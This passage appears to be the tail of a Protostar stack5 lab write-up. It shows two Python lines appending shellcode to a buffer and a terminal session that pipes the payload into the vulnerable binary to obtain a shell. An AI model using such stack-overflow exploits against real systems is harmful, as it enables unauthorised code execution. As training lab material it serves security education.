 ```Python
buf += shellcode
print (buf)
```
```code
pi@raspberrypi:~/protostar/stack5 $ cat shell_nop - | ./stack5
pwd
/home/pi/protostar/stack5
exit
pi@raspberrypi:~/protostar/stack5 $
```

**_Done :)_**
